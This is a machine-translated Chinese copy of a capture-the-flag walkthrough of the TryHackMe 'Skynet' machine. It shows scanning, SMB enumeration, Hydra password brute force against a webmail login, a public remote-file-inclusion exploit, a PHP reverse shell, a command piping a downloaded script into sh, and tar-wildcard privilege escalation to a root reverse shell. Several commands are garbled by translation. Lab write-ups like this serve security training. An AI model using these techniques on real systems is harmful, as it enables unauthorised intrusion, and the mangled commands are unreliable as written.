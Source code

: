 # 再见，宝贝

> 原文：<https://infosecwriteups.com/hasta-la-vista-baby-1c5de4e66cac?source=collection_archive---------4----------------------->

## [道德黑客文章和评论](https://medium.com/@vadimpolovnikov)

TryHackMe 天网机器演练

![](img/02e526999b0ef0d5c8615754553c2de8.png)

从 tryhackme.com 取回

## [摘要]

TryHackMe Skynet 机器可能是我在枚举和完全妥协之间运行时间最长的一次。它有各种信息收集媒介，如 HTTP、SMB、IMAP、POP3 等。以及针对易受攻击的 CMS 和 tar 实用程序的复杂权限提升方式。

开发组件包括但不限于:

*   Nmap 和 NSE 脚本
*   smbclient 和 rpcclient
*   enum4linux
*   GoBuster
*   硬石膏
*   THC-Hydra
*   利用数据库
*   Python、Bash 和 PHP
*   等等

## [任务 1]

基本 Nmap 扫描:

`nmap -sS -sV -O -T4 <ip-address> -oN basic_scan.nmap`

![](img/ddc02037cb80131299ac322dee71066b.png)

该扫描揭示了我们可以采取的进一步指纹识别途径，我建议运行以下扫描:

> sudo gobuster dir-u[http://IP-addr](http://ip-addr%20-w%20/usr/share/wordlists/dirb/common.txt)-w/usr/share/word lists/dirb/common . txt
> 
> nmap-script = vuln IP-addr-oN vuln _ scan . nmap
> 
> enum 4 Linux-A IP-addr > SMB _ enum . txt
> 
> nmap-script = SMB-enum-share . NSE IP-addr

Gobuster 的扫描输出:

![](img/483ac69ee12c00621d64a8f3671f664d.png)

***/squirrelmail*** 指向基于 web 的邮件服务。它运行在 PHP 上，支持 IMAP 和 SMTP 服务。

![](img/01d65a67612ea57591fc320ca7303785.png)

来自 ***enum4linux*** 和 Nmap 的***SMB-enum-shares***NSE 脚本的输出有一些关于邮件服务的潜在用户的提示。

![](img/cdc6b4a262865b6e0396523ab121457e.png)

用户可能是 milesdyson。但是什么可能是密码呢？

有匿名共享可用，所以下面的 ***smbclient*** 命令会让我们在共享文件夹中:

`smbclient //ip-addr/anonymous`

浏览目录并找到带有密码的文件。我们将使用该文件作为 THC-Hydra 的*输入，用于邮件服务登录暴力破解。*

*用 Burp 套件拦截登录请求…*

*![](img/4981b5d60a6dea135ae63eca934ff770.png)*

*…并使用 POST 表单作为 hydra 的 http-form-post 密码攻击的模板。*

*![](img/96059e9ab3abb480bbfc5a17320dabd3.png)*

*登录邮件服务。*

*![](img/4da09f9e5b535a36b123149f4f931815.png)*

*其中一条消息包含我们之前发现的 SMB 共享的 milesdyson 密码。以下命令将完成这项工作:*

*`smbclient -U milesdyson //ip-addr/milesdyson`*

*浏览并下载一个似乎很重要的文件*

*发现隐藏目录后，浏览 CMS 网页…*

*![](img/02e5a84fb8ad5019fd7f69295444cda7.png)*

*…谷歌一下可用的公共漏洞( [Exploit-DB](https://www.exploit-db.com/exploits/25971) ):*

*![](img/14e667bcf520cc608f654421af4accae.png)*

*从[漏洞利用数据库](https://www.exploit-db.com/exploits/25971)中检索*

*上面的屏幕截图总结了 CMS 软件上存在的远程文件包含漏洞，并建议了一组进一步的操作。*

*“非 PHP 代码将嵌入到输出中”:*

*![](img/1b48ab8f667482e4222bddc6591ea873.png)*

*“将评估此文件中的 PHP 代码”:*

*![](img/b7496994a399c0c116fcaf69ad399b78.png)*

*本例中使用的反向 shell 是[pentest monkey PHP-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)。*

*逃离有限外壳的技巧:*

> ***Python-c " import pty；pty.spawn("/bin/bash")"***
> 
> ***出口期限=xterm***

*从这一点出发，我建议您将 [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) Linux 枚举脚本上传到目标机器上，并观察 PE 的潜在向量。我用于脚本上传的方法概述如下:*

1.  *本地机器:***python 3-m http . server 80****
2.  *远程机器:***curl-X GET***[***http://IP-addr/***](http://ip-addr/REVSHELL.php)***linpeas . sh | sh****

*Crontab 作业:*

*![](img/f35b40f1c8753375fe2e6765e36fd8f4.png)*

*找到脚本并理解它的作用。*

*![](img/e82c9289c9b6830fbf64e102f4842778.png)*

*下面的 [***链接***](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/) 包含了对漏洞的惊人描述一个 ***** 通配符与 ***tar*** 实用程序组合构成一个系统。*

*可以采取以下步骤将您的特权提升到最高级别。*

*![](img/c4f9de13bca33b60369ba505f26a4ce8.png)*

*pentestmonkey Bash 反向外壳*

*现在，在本地机器上启动 NetCat 监听器，等待目标服务器通过根终端连接到您。*

*感谢您加入我的这个 TryHackMe 天网演练，我希望我会看到你的下一个。黑客快乐！*

*如果你想看看我的其他文章和评论，点击**链接**(文章的第一行，就在标题上方)或者选择下面的一些。*

*[](https://medium.com/bugbountywriteup/blind-union-based-sqli-with-python-f1a8190feb43) [## 基于 Python 的盲联合 SQLi

### 了解 Python 如何在速度上击败 Burp Suite，并提高您的黑客效率。

medium.com](https://medium.com/bugbountywriteup/blind-union-based-sqli-with-python-f1a8190feb43) [](https://medium.com/bugbountywriteup/is-this-password-manager-safe-fd8886a78afd) [## 这个密码管理器安全吗？

### TryHackMe trans over machine 演练，包含 Burp Suite、JavaScript、开膛手 John 和 LinPEAS。

medium.com](https://medium.com/bugbountywriteup/is-this-password-manager-safe-fd8886a78afd) [](https://medium.com/bugbountywriteup/your-neighbours-music-sucks-aircrack-ng-for-the-rescue-a5124a2e2734) [## 你邻居的音乐很烂？救援飞机来了！

### 有趣而简单的 Wi-Fi 认证攻击将您的邻居踢出网络。

medium.com](https://medium.com/bugbountywriteup/your-neighbours-music-sucks-aircrack-ng-for-the-rescue-a5124a2e2734)*